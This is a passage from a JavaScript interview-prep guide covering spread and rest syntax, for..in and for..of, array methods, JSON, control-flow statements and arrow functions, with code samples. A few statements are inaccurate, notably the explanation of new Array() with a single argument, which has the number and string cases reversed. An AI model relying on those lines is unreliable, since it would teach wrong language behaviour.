console.log(JSON.stringify(objCopy)); // { "a":10, "b":20, "c":30 }
```

**Difference:**

The main difference between `rest` and `spread` is that the rest operator puts the rest of some specific user-supplied values into a JavaScript array. But the spread syntax expands iterables into individual elements.

|Spread Syntax           |  Rest Syntax                    |
|------------------------|---------------------------------|
|Spread operator as its name suggests it spreads or expands the content of the given element.| Rest Syntax is just the opposite of spread syntax it collects the data and stores that data in a variable which we can use further in our code.|
|It expands an Array in form of elements, while in key-value pairs in the case of Objects. | It collects the data in the developer\'s desired format.|
|You may or may not use the strict mode inside the function containing the spread operator. | You can not use the strict mode inside function containing the rest operator.|
|It will overwrite the identical properties inside two objects and replace the former with the latter. | It simply collects all properties and wraps them inside a container.|

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-spread-vs-spread-qvxkkz?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between for..in and for..of?

Both `for..of` and `for..in` statements iterate over lists; the values iterated on are different though, `for..in` returns a **list of keys** on the object being iterated, whereas `for..of` returns a **list of values** of the numeric properties of the object being iterated.  

* **for in**: iterates over all enumerable properties of an object that are **keyed** by strings.  
* **for of**: iterates over the **values** of an iterable objects. including: built-in `String`, `Array`, array-like objects (e.g., `arguments` or `NodeList`), `TypedArray`, `Map`, `Set`, and `user-defined` iterables.

**Example:**

```js
// for..in
const list = [10, 20, 30];

for (let key in list) {
  console.log(key); // "0", "1", "2",
}

// for..of
for (let value of list) {
  console.log(value); // "10", "20", "30"
}

// Works on any iterable: arrays, strings, Map, Set
for (let char of "hello") {
  console.log(char); // "h", "e", "l", "l", "o"
}
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-for-in-for-of-b0vn3v?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. When to use reduce(), map(), foreach() and filter() in JavaScript?

**1. forEach():**  

It takes a callback function and run that callback function on each element of array one by one.
Basically forEach works as a traditional for loop looping over the array and providing array elements to do operations on them.

```js
let numbers = [10, 20, 30];

numbers.forEach(function (number, index) {
  console.log(number + " comes at " + index);
});

// Output
10 comes at 0
20 comes at 1
30 comes at 2
```

**2. filter():**

The main difference between forEach() and filter() is that forEach just loop over the array and executes the callback but filter executes the callback and check its return value. If the value is true element remains in the resulting array but if the return value is false the element will be removed for the resulting array.

*Note: filter does not update the existing array it will return a new filtered array every time*.

```js
let numbers = [10, 20, 30];

let result = numbers.filter(function (number) {
  return number !== 20;
});

console.log(result);

// Output
[10, 30]
```

**3. map():**

map() like filter() & forEach() takes a callback and run it against every element on the array but whats makes it unique is it generate a new array based on your existing array.

Like filter(), map() also returns an array. The provided callback to map modifies the array elements and save them into the new array upon completion that array get returned as the mapped array.

```js
let numbers = [10, 20, 30];

let mapped = numbers.map(function (number) {
  return number * 10;
});

console.log(mapped);

// Output
[100, 200, 300]
```

**4. reduce():**

reduce() method of the array object is used to reduce the array to one single value.

```js
let numbers = [10, 20, 30];

let sum = numbers.reduce(function (sum, number) {
  return sum + number;
});

console.log(sum); // Output: 60
```

**Key Rules**
* Need a new transformed array? → `map()`
* Need a subset? → `filter()`
* Need a single output (sum, object, string)? → `reduce()`
* Need no return value (side effects)? → `forEach()`
* Avoid `forEach()` when you need a result — use `map()/filter()/reduce()` instead

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-loop-m755cw?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you define JSON arrays?

JSON is an acronym for JavaScript Object Notation, and is "an open standard data interchange format".

JSON array represents ordered list of values. JSON array can store multiple values. It can store string, number, boolean or object in JSON array.

```js
// Empty JSON array
const empty = [ ];


// JSON Array of Numbers
const numbers = [12, 34, 56, 43, 95];


// JSON Array of Objects
{
 "employees": [
   { "name": "Kabir Dixit", "email": "kabir.dixit@gmail.com", "age": 23 },
   { "name": "Mukta Bhagat", "email": "mukta.bhagat@gmail.com", "age": 28 },
   { "name": "Sakshi Ramakrishnan", "email": "sakshi.ramakrishnan@gmail.com", "age": 33 }
  ]
}

// access array values
console.log(employees[0].name) // Kabir Dixit
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to validate JSON Object in javascript?

`JSON.parse()` function will use string and converts to JSON object and if it parses invalidate JSON data, it throws an exception ( **Uncaught SyntaxError: Unexpected string in JSON** ).

```js
function isValidJson(json) {
  try {
    JSON.parse(json);
    return true;
  } catch (e) {
    return false;
  }
}

console.log(isValidJson("{}")); // true
console.log(isValidJson("abc")); // false
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-validate-json-iwzom7?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose JSON stringify?

When sending data to a web server, the data has to be in a string format. The `JSON.stringify()` method converts a JavaScript object or value to a JSON string format.

```js
const user = {'name': 'Shashi Meda', 'email': 'shashi.meda@email.com', 'age': 28}

console.log(JSON.stringify(user)); // {"name":"Shashi Meda","email":"shashi.meda@email.com","age":28}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you parse JSON string?

When receiving the data from a web server, the data is always in a string format. But you can convert this string value to javascript object using `JSON.parse()` method.

```js
const user = '{"name": "Shashi Meda", "email": "shashi.meda@email.com", "age": 28}'

console.log(JSON.parse(user));// {'name': 'Shashi Meda', 'email': 'shashi.meda@email.com', 'age': 28}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of compare function while sorting arrays?

The purpose of the compare function is to define an alternative sort order. When the `sort()` function compares two values, it sends the values to the compare function, and sorts the values according to the returned (negative, zero, positive) value.

If omitted, the array elements are converted to strings, then sorted according to each character\'s Unicode code point value.

```js
const numbers = [1, 2, 5, 3, 4];

numbers.sort((a, b) => b - a);
console.log(numbers); // [5, 4, 3, 2, 1]
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-sort-ykfhck?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Can you describe the main difference between a `.forEach` loop and a `.map()` loop and why you would pick one versus the other?

To understand the differences between the two, Let us look at what each function does.

**1. Array.forEach():**

* Iterates through the elements in an array.
* Executes a callback for each element.
* Does not return a value.

```js
const numbers = [10, 20, 30];
const doubled = numbers.forEach((num, index) => {
  return num * 2;
});

console.log(doubled) // undefined
```

**2. Array.map():**

* Iterates through the elements in an array.
* "Maps" each element to a new element by calling the function on each element, creating a new array as a result.

```js
const numbers = [10, 20, 30];
const doubled = numbers.map(num => {
  return num * 2;
});

console.log(doubled) // [20, 40, 60]
```

The main difference between `.forEach` and `.map()` is that `.map()` returns a new array. If you need the result, but do not wish to mutate the original array, `.map()` is the clear choice. If you simply need to iterate over an array, `forEach` is a fine choice.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-foreach-vs-map-kxch52?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is unshift() method in JavaScript?

The `unshift()` method adds one or more elements to the beginning of an array and returns the new length of the array.

**Example:**

```js
const numbers = [10, 20, 30];

console.log(numbers.unshift(40, 50)); // 5
console.log(numbers); // [40, 50, 10, 20, 30]
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-unshift-khl0dq?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a rest parameter?

The rest parameter is used to represent an indefinite number of arguments as an array. The important point here is only the function\'s last parameter can be a "rest parameter".

This feature has been introduced to reduce the boilerplate code that was induced by the arguments.

**Example:**

```js
function sum(...args) {
  return args.reduce((previous, current) => {
    return previous + current;
  });
}

console.log(sum(10)); // 10
console.log(sum(10, 20)); // 30
console.log(sum(10, 20, 30)); // 60
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/es6-rest-parameters-w8zy28?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What happens if you do not use rest parameter as a last argument?

The rest parameter should be the last argument, as its job is to collect all the remaining arguments into an array.

**Example:** If you define a function like below it does not make any sense and will throw an `SyntaxError`.

```js
function display(a, ...args, b) {
  console.log(a);
  for (let i = 0; i < args.length; i++) {
    console.log(args[i]);
  }
  console.log(b);
}

display(10, 20, 30, 40, 50);

// Output
SyntaxError: Rest element must be last element
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-rest-parameter-v8r5yt?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between [] and new Array()?

`[]` and `new Array()` are two different ways of creating an array, but they are functionally equivalent.

The primary difference between them is in how they are created and in their behavior when used with certain methods.

`[]` is a shorthand for creating a new array. It is the preferred way to create an array in most cases, because it\'s more concise and easier to read. For example:

```js
const myArray = []; // create a new empty array
```

On the other hand, `new Array()` is a constructor function that creates a new array object. It can be used to create an array of a specific length or with specific elements. For example:

```js
const myArray = new Array(); // create a new empty array
const myOtherArray = new Array(3); // create a new array with a length of 3
const myThirdArray = new Array("a", "b", "c"); // create a new array with three elements
```

One potential pitfall of using `new Array()` is that it can be ambiguous when you pass a single argument to the constructor. For example, `new Array(3)` creates an array with a length of 3, but `new Array("3")` creates an array with a single element, the string "3". This is because the argument is treated as the value of the first element when it\'s a non-negative integer, but as the length of the array when it\'s a string or a negative integer.

In summary, `[]` is the preferred way to create a new array in JavaScript, while `new Array()` is an alternative way that can be used when you need more control over the array\'s length or contents.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are `Array.from()`, `Array.of()` and `Array.isArray()` methods?

**1. Array.from():**

`Array.from()` creates a new, shallow-copied array from an array-like or iterable object such as a `Set`, `Map`, `NodeList`, or string.

```js
// From a string
console.log(Array.from('hello')); // ['h', 'e', 'l', 'l', 'o']

// From a Set
const set = new Set([1, 2, 3, 2, 1]);
console.log(Array.from(set)); // [1, 2, 3]

// With a map function
console.log(Array.from([1, 2, 3], x => x * 2)); // [2, 4, 6]

// From array-like object
console.log(Array.from({ length: 3 }, (_, i) => i + 1)); // [1, 2, 3]
```

**2. Array.of():**

`Array.of()` creates a new array from a variable number of arguments, regardless of number or type. It fixes the ambiguity of `new Array()` with a single numeric argument.

```js
console.log(Array.of(7));       // [7]         (one element)
console.log(new Array(7));      // [ , , , , , , ] (empty array of length 7!)

console.log(Array.of(1, 2, 3)); // [1, 2, 3]
```

**3. Array.isArray():**

`Array.isArray()` returns `true` if the passed value is an array, `false` otherwise. It is more reliable than `instanceof` when working across different frames or windows.

```js
console.log(Array.isArray([1, 2, 3]));  // true
console.log(Array.isArray('hello'));     // false
console.log(Array.isArray({ length: 3 })); // false
console.log(Array.isArray(new Array())); // true
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 8. CONTROL FLOW

<br>

## Q. What are the different types of control flow statements available in JavaScript?

Control flow determines the order in which statements are executed. JavaScript provides three main categories:

| Category | Statements |
|---|---|
| **Conditional** | `if`, `else if`, `else`, `switch`, ternary (`? :`) |
| **Looping / Iteration** | `for`, `while`, `do...while`, `for...in`, `for...of` |
| **Jump / Transfer** | `break`, `continue`, `return`, `throw` |

By default, JavaScript executes code top-to-bottom (sequential flow). Control flow statements allow branching and repetition, enabling complex logic.

**Example:**

```js
// Conditional branching
const score = 78;

if (score >= 90) {
  console.log("Grade: A");
} else if (score >= 75) {
  console.log("Grade: B"); // ← executed
} else {
  console.log("Grade: C");
}

// Looping
const students = ["Alice", "Bob", "Carol"];
for (let i = 0; i < students.length; i++) {
  console.log(students[i]);
}

// Jump: exit loop early
for (let i = 0; i < 10; i++) {
  if (i === 5) break;
  console.log(i); // 0, 1, 2, 3, 4
}
```

**Real-World Use Case:**  
In a Node.js REST API, `if/else` chains validate incoming request payloads (checking required fields, type constraints, and business rules) before passing control to the service layer — keeping the controller logic clean and the happy path unindented.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does the `if...else if...else` ladder work, and what are its performance considerations?

The `if...else if...else` ladder evaluates conditions sequentially from top to bottom and executes the first block whose condition is `true`. Once a matching branch executes, all remaining `else if` and `else` blocks are skipped — making it short-circuit by design.

**Performance consideration:** JavaScript evaluates each condition until one is truthy. Placing the most frequently matched condition first reduces the number of comparisons at runtime.

**Example:**

```js
function classify(temperature) {
  if (temperature < 0) {
    return "Freezing";
  } else if (temperature < 10) {
    return "Cold";
  } else if (temperature < 20) {
    return "Mild";
  } else if (temperature < 30) {
    return "Warm";
  } else {
    return "Hot";
  }
}

console.log(classify(-5));  // Freezing
console.log(classify(15));  // Mild
console.log(classify(35));  // Hot
```

**Falsy vs. Truthy awareness:**

```js
// These values are falsy in JavaScript:
// false, 0, "", null, undefined, NaN

const value = 0;

if (value) {
  console.log("Truthy");
} else {
  console.log("Falsy"); // ← executed because 0 is falsy
}
```

**Real-World Use Case:**  
In a React component rendering a dashboard widget, an `if...else if` ladder checks the API response status (`"loading"`, `"error"`, `"empty"`, `"success"`) and returns the appropriate JSX. Placing the `"loading"` state first ensures the spinner is shown instantly while data fetches, improving perceived performance.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. When should you use a `switch` statement instead of `if...else if`, and what are its pitfalls?

A `switch` statement compares a single expression against multiple discrete values using **strict equality (`===`)**. It is preferable over `if...else if` when:
- You are comparing **one variable** against **many possible literal values**.
- Readability is a priority (avoids repetitive condition checks against the same variable).

**Pitfall — Fall-through:** Without a `break` statement, execution "falls through" to the next `case`, which is a common source of bugs.

**Example:**

```js
const day = "Monday";

switch (day) {
  case "Monday":
  case "Tuesday":
  case "Wednesday":
  case "Thursday":
  case "Friday":
    console.log("Weekday");
    break;
  case "Saturday":
  case "Sunday":
    console.log("Weekend");
    break;
  default:
    console.log("Unknown day");
}
// Output: Weekday
```

**Intentional fall-through example:**

```js
// Grouping cases that share behavior — intentional fall-through
const statusCode = 404;

switch (statusCode) {
  case 400:
  case 401:
  case 403:
  case 404:
    console.log("Client error");
    break;
  case 500:
  case 502:
  case 503:
    console.log("Server error");
    break;
  default:
    console.log("Unknown status");
}
// Output: Client error
```

**Pitfall — switch uses `===`, not `==`:**

```js
const x = "1";
switch (x) {
  case 1:
    console.log("Number 1"); // NOT matched
    break;
  case "1":
    console.log("String '1'"); // ← matched
    break;
}
```

**Real-World Use Case:**  
In a Redux reducer, a `switch` on `action.type` is the canonical pattern. Each `case` maps to a specific action string (e.g., `"INCREMENT"`, `"DECREMENT"`, `"RESET"`), returning a new state object. This pattern is readable, scalable, and directly documented in the Redux style guide.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain the difference between `for`, `for...in`, and `for...of` loops with practical examples.

| Loop | Iterates Over | Use Case |
|---|---|---|
| `for` | Index-based counter | Arrays, precise iteration control |
| `for...in` | Enumerable **property keys** | Object properties (avoid for arrays) |
| `for...of` | **Iterable values** (arrays, strings, Maps, Sets, generators) | Arrays, strings, and other iterables |

**Example:**

```js
// --- for loop: classic index-based ---
const arr = [10, 20, 30];

for (let i = 0; i < arr.length; i++) {
  console.log(`Index ${i}: ${arr[i]}`);
}
// Index 0: 10 | Index 1: 20 | Index 2: 30

// --- for...in: object property keys ---
const user = { name: "Alice", age: 30, role: "admin" };

for (const key in user) {
  console.log(`${key}: ${user[key]}`);
}
// name: Alice | age: 30 | role: admin

// --- for...of: iterable values ---
const fruits = ["apple", "banana", "cherry"];

for (const fruit of fruits) {
  console.log(fruit);
}
// apple | banana | cherry

// for...of also works on strings
for (const char of "hello") {
  process.stdout.write(char + " ");
}
// h e l l o

// for...of with Map
const scores = new Map([["Alice", 95], ["Bob", 87]]);
for (const [name, score] of scores) {
  console.log(`${name}: ${score}`);
}
```

**Why avoid `for...in` on arrays?**

```js
const arr = [1, 2, 3];
arr.custom = "oops"; // accidentally adding a property

for (const key in arr) {
  console.log(key); // "0", "1", "2", "custom" ← includes inherited/custom keys!
}

for (const val of arr) {
  console.log(val); // 1, 2, 3 ← only values, safe
}
```

**Real-World Use Case:**  
In a Node.js data-processing pipeline, `for...of` with `await` (inside an `async` function) iterates over a paginated API result set sequentially — something `forEach` cannot do since it ignores returned Promises. `for...in` is used to dynamically enumerate config object keys when serializing environment-specific settings.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do `while` and `do...while` loops differ, and when should each be used?

| Loop | Condition Check | Minimum Executions | Use When |
|---|---|---|---|
| `while` | **Before** each iteration | **0** (may never run) | Number of iterations is unknown; condition may be false initially |
| `do...while` | **After** each iteration | **1** (always runs once) | Body must execute at least once regardless of condition |

**Example:**

```js
// --- while loop ---
let stock = 5;

while (stock > 0) {
  console.log(`Items remaining: ${stock}`);
  stock--;
}
// Runs 5 times. If stock were 0 initially, it would never run.

// --- do...while loop ---
let attempts = 0;
let pin;

do {
  pin = prompt("Enter 4-digit PIN:"); // Must show prompt at least once
  attempts++;
} while (pin !== "1234" && attempts < 3);

console.log(attempts === 3 ? "Locked out" : "Access granted");
```

**Infinite loop guard — always ensure the condition can become false:**

```js
// DANGER: this never terminates
// while (true) { }

// SAFE: controlled exit with break
let counter = 0;
while (true) {
  counter++;
  if (counter >= 5) break;
}
console.log(counter); // 5
```

**Real-World Use Case:**  
A `do...while` loop is ideal for a CLI tool (e.g., a Node.js interactive script using `readline`) where you always need to display a menu at least once and re-display it until the user selects "Exit". A `while` loop suits polling a queue (`while (queue.length > 0)`) in a job processor, since the queue might be empty on startup.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of `break` and `continue` statements, and how do they interact with nested loops?

- **`break`**: Immediately terminates the **innermost** loop or `switch` statement and transfers control to the statement following it.
- **`continue`**: Skips the **current iteration** of the innermost loop and jumps to the next iteration\'s condition check.

**Example:**

```js
// --- break: stop on first match ---
const inventory = [
  { id: 1, name: "Widget A", inStock: false },
  { id: 2, name: "Widget B", inStock: true },
  { id: 3, name: "Widget C", inStock: true },
];

let firstAvailable = null;
for (const item of inventory) {
  if (item.inStock) {
    firstAvailable = item;
    break; // stop searching once found
  }
}
console.log(firstAvailable); // { id: 2, name: "Widget B", inStock: true }

// --- continue: skip unwanted items ---
const numbers = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10];
const evens = [];

for (const n of numbers) {
  if (n % 2 !== 0) continue; // skip odd numbers
  evens.push(n);
}
console.log(evens); // [2, 4, 6, 8, 10]
```

**Labeled statements — breaking outer loops:**

```js
// Without labels, break only exits the inner loop
outerLoop: for (let i = 0; i < 3; i++) {
  for (let j = 0; j < 3; j++) {
    if (i === 1 && j === 1) {
      break outerLoop; // exits BOTH loops
    }
    console.log(`i=${i}, j=${j}`);
  }
}
// i=0,j=0 | i=0,j=1 | i=0,j=2 | i=1,j=0  ← stops here
```

**Real-World Use Case:**  
In a search autocomplete engine, `break` short-circuits a loop over a large dataset once the desired number of suggestions is collected, preventing unnecessary iterations. `continue` is used in data-cleaning pipelines to skip `null` or malformed records without nesting the entire logic in an extra `if` block — keeping cyclomatic complexity low and the code easier to review.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the ternary operator and how does it compare to `if...else` for conditional expressions?

The ternary operator (`condition ? expressionIfTrue : expressionIfFalse`) is JavaScript\'s only **three-operand operator**. It evaluates a condition and returns one of two expressions. Unlike `if...else` (a **statement**), the ternary is an **expression** — it produces a value and can be used inline.

**Example:**

```js
// if...else statement — cannot be used inline
let label;
const isLoggedIn = true;

if (isLoggedIn) {
  label = "Logout";
} else {
  label = "Login";
}

// Ternary expression — equivalent, concise, assignable
const label2 = isLoggedIn ? "Logout" : "Login";

console.log(label2); // "Logout"

// Inline in JSX (React)
// <button>{isLoggedIn ? "Logout" : "Login"}</button>

// Nested ternary — use sparingly, prefer if...else for readability
const score = 72;
const grade = score >= 90 ? "A"
            : score >= 75 ? "B"
            : score >= 60 ? "C"
            : "F";

console.log(grade); // "C"
```

**When NOT to use ternary:**

```js
// Bad: using ternary for side effects reduces readability
isLoggedIn ? doLogout() : doLogin();

// Better: use if...else for side effects
if (isLoggedIn) {
  doLogout();
} else {
  doLogin();
}
```

**Real-World Use Case:**  
In React, the ternary operator is the standard pattern for conditional rendering within JSX since JSX is an expression context — `if` statements cannot appear inside `{}` interpolation. For example, rendering a loading spinner vs. a data table based on `isLoading` state is universally handled with a ternary.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the nullish coalescing (`??`) and optional chaining (`?.`) operators, and how do they relate to control flow?

Both operators introduced in ES2020 reduce verbose defensive `if` checks for `null`/`undefined` values:

- **Nullish coalescing (`??`)**: Returns the right-hand operand when the left is **`null` or `undefined`** (not other falsy values like `0` or `""`).
- **Optional chaining (`?.`)**: Short-circuits and returns `undefined` instead of throwing a `TypeError` when accessing a property on `null` or `undefined`.

**Example:**

```js
// --- Nullish Coalescing ?? ---
const userAge = 0; // falsy but valid!

// Old approach (bug: treats 0 as falsy)
const age1 = userAge || 18; // 18  ← WRONG: overwrites valid 0
// Correct approach
const age2 = userAge ?? 18; // 0   ← CORRECT: 0 is not null/undefined

console.log(age1, age2); // 18, 0

// --- Optional Chaining ?. ---
const user = {
  profile: {
    address: null
  }
};

// Without optional chaining — throws TypeError
// console.log(user.profile.address.city); // TypeError!

// With optional chaining — safe
console.log(user.profile?.address?.city); // undefined (no error)

// Works on methods too
const result = user.getPermissions?.(); // undefined if method doesn\'t exist

// Works on arrays
const first = user.tags?.[0]; // undefined if tags is null/undefined

// --- Combined usage ---
const city = user.profile?.address?.city ?? "Unknown City";
console.log(city); // "Unknown City"
```

**Real-World Use Case:**  
When consuming third-party REST APIs or GraphQL responses, deeply nested fields may be absent depending on the query. Optional chaining eliminates dozens of guard clauses like `if (response && response.data && response.data.user)`. Nullish coalescing is critical when a user-configurable setting has `0` or `""` as a valid value — falling back with `||` would incorrectly override those legitimate settings.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are labeled statements in JavaScript and when are they appropriate?

A **labeled statement** is an identifier followed by a colon (`:`) placed before a loop or block. Labels can be referenced by `break` and `continue` to control the flow of **outer** loops from within a nested loop. They are rarely used — but in specific nested-iteration scenarios they can be clearer than managing manual flags.

**Example:**

```js
// --- Using label with break to exit a matrix search ---
function findValue(matrix, target) {
  let found = false;

  search: for (let row = 0; row < matrix.length; row++) {
    for (let col = 0; col < matrix[row].length; col++) {
      if (matrix[row][col] === target) {
        console.log(`Found at [${row}][${col}]`);
        found = true;
        break search; // exit both loops immediately
      }
    }
  }

  return found;
}

const matrix = [
  [1, 2, 3],
  [4, 5, 6],
  [7, 8, 9],
];

findValue(matrix, 5); // Found at [1][1]

// --- Using label with continue ---
outer: for (let i = 0; i < 3; i++) {
  for (let j = 0; j < 3; j++) {
    if (j === 1) continue outer; // skip rest of inner loop, go to next outer iteration
    console.log(`i=${i}, j=${j}`);
  }
}
// i=0,j=0 | i=1,j=0 | i=2,j=0
```

**Alternative to a flag variable:**

```js
// Without labels — requires a flag
let found = false;
for (let i = 0; i < rows && !found; i++) {
  for (let j = 0; j < cols; j++) {
    if (grid[i][j] === target) { found = true; break; }
  }
}

// With labels — no flag needed, intent is clearer
searchGrid: for (let i = 0; i < rows; i++) {
  for (let j = 0; j < cols; j++) {
    if (grid[i][j] === target) break searchGrid;
  }
}
```

**Real-World Use Case:**  
In a pathfinding algorithm (e.g., BFS/DFS on a 2D game map) or a seat-selection engine scanning rows and seats in a stadium booking system, a labeled `break` exits all nested loops the moment a valid seat is located — avoiding a boolean flag variable that would otherwise pollute the outer scope and add an extra condition to every loop header.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is short-circuit evaluation in JavaScript and how does it control execution flow?

JavaScript\'s logical operators (`&&`, `||`, `??`) use **short-circuit evaluation**: the right-hand operand is only evaluated if necessary. This is not just a performance optimization — it is a widely used **control flow** mechanism.

| Operator | Short-circuits when left side is | Returns |
|---|---|---|
| `&&` (AND) | **falsy** | Left operand (skips right) |
| `\|\|` (OR) | **truthy** | Left operand (skips right) |
| `??` (Nullish) | **not null/undefined** | Left operand (skips right) |

**Example:**

```js
// --- && short-circuit: right side only runs if left is truthy ---
const user = { isAdmin: true };

user.isAdmin && console.log("Admin panel loaded"); // ← runs
null && console.log("This never runs");             // ← skipped

// --- || short-circuit: right side only runs if left is falsy ---
const config = null;
const settings = config || { theme: "dark", lang: "en" }; // default fallback
console.log(settings); // { theme: "dark", lang: "en" }

// --- Practical: guard before calling a function ---
function logError(err) {
  err && err.message && console.error(err.message);
}

logError(null);            // nothing happens (safe)
logError({ message: "Failed" }); // "Failed"

// --- Chaining for conditional execution (React pattern) ---
const isLoading = false;
const data = [1, 2, 3];

// Equivalent to: if (!isLoading && data.length > 0) render()
const output = !isLoading && data.length > 0 && "Render data";
console.log(output); // "Render data"
```

**Gotcha — using `&&` for side effects:**

```js
// This is valid but can be confusing:
isAuthenticated && fetchDashboard();

// Prefer explicit if for clarity in complex flows:
if (isAuthenticated) {
  fetchDashboard();
}
```

**Real-World Use Case:**  
In React, `&&` short-circuit is the idiomatic pattern for **conditional rendering**: `{isLoggedIn && <UserMenu />}` renders the component only when `isLoggedIn` is truthy, with no JSX `if` block needed. The `||` operator is universally used for **default parameter fallbacks** before optional chaining became standard. In Node.js middleware chains, `&&` guards ensure a dependency (e.g., a database connection) is available before proceeding to query logic.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 9. FUNCTIONS

<br>

## Q. What are the benefits of using arrow function over es5 function?

Arrows is a new syntax for functions, which brings several benefits:

* Arrow syntax automatically binds `this` to the surrounding code\'s context
* The syntax allows an implicit return when there is no body block, resulting in shorter and simpler code in some cases
* Last but not least, `=>` is shorter and simpler than `function`, although stylistic issues are often subjective

**Example 01:** Arrow Function with No Argument

If a function doesn\'t take any argument, then you should use empty parentheses.

```js
let greet = () => console.log('Hello');
greet(); // Hello
```

**Example 02:** Arrow Function with One Argument

If a function has only one argument, you can omit the parentheses.

```js
let greet = x => console.log(x);
greet('Hello'); // Hello 
```

**Example 03:** Arrow Function as an Expression

You can also dynamically create a function and use it as an expression.

```js
let age = 25;

let welcome = (age < 18) ?
  () => console.log('Baby') :
  () => console.log('Adult');

welcome(); // Adult
```

**Example 04:** Multiline Arrow Functions

If a function body has multiple statements, you need to put them inside curly brackets `{}`.

```js
let area = (r) => {
  const pi = 3.14;
  return pi * r * r;
}

let result = area(10);
console.log(result); // 314
```

*Note: Unlike regular functions, arrow functions do not have their own `this`. The value of `this` inside an arrow function remains the same throughout the lifecycle of the function and is always bound to the value of `this` in the closest non-arrow parent function.*

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/es6-arrow-function-yl7oqo?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the benefit of using the arrow syntax for a method in a constructor?

The main advantage of using an arrow function as a method inside a constructor is that the value of `this` gets set at the time of the function creation and can\'t change after that. So, when the constructor is used to create a new object, `this` will always refer to that object.

**Example:**

```js
const Person = function(firstName) {
  this.firstName = firstName;
  this.sayName1 = function() { console.log(this.firstName); };
  this.sayName2 = () => { console.log(this.firstName); };
};

const john = new Person('John');
const dave = new Person('Dave');

john.sayName1(); // John
john.sayName2(); // John

// The regular function can have its 'this' value changed, but the arrow function cannot
john.sayName1.call(dave); // Dave (because "this" is now the dave object)
john.sayName2.call(dave); // John

john.sayName1.apply(dave); // Dave (because 'this' is now the dave object)
john.sayName2.apply(dave); // John

john.sayName1.bind(dave)(); // Dave (because 'this' is now the dave object)
john.sayName2.bind(dave)(); // John

var sayNameFromWindow1 = john.sayName1;
sayNameFromWindow1(); // undefined (because 'this' is now the window object)

var sayNameFromWindow2 = john.sayName2;
sayNameFromWindow2(); // John
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Difference between `Function`, `Method` and `Constructor` calls in JavaScript?

**1. Functions:** The simplest usages of function call:

```js
function display(name) {
  return "Hello " + name;
}

display("World"); // "Hello World"
```

**2. Methods:** in JavaScript are nothing more than object properties that are functions.

```js
var obj = {
  display : function() {
    return "Hello " + this.name;
  },
  name: 'Minali Peri'
}
obj.display();  // "Hello Minali Peri"
```

**3. Constructors:** Like function and method, `constructors` are defined with function.

```js
function Employee(name, age) {
  this.name = name;
  this.age = age;
}

var emp1 = new Employee('Drishya Sama', 28);
emp1.name; // "Drishya Sama"
emp1.age; // 28
```

Unlike function calls and method calls, a constructor call `new Employee('Drishya Sama', 28)` creates a new object and passes it as the value of `this`, and implicitly returns the new object as its result. The primary role of the constructor function is to initialize the object.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. When you should not use arrow functions in ES6?

An arrow function is a shorter syntax for a function expression and does not have its own **this, arguments, super, or new.target**. These function are best suited for non-method functions, and they cannot be used as constructors.

**Arrow functions in ES6 has two limitations:**

* Do not work with new
* Fixed this bound to scope at initialisation

**When should not use Arrow Functions:**

**1. Object methods:**  

The counter object has two methods: current() and next(). The current() method returns the current counter value and the next() method returns the next counter value.

```js
// Usin arrow function
const counter = {
  count: 0,
  next: () => ++this.count,
  current: () => this.count
};

console.log(counter.next()); // NaN
```

**2. Event handlers:**  

If we click the button, we would get a TypeError. It is because this is not bound to the button, but instead bound to its parent scope.

```js
let button = document.getElementById('press');

button.addEventListener('click', () => {
  this.classList.toggle('on');
});
```

**3. Prototype methods:**

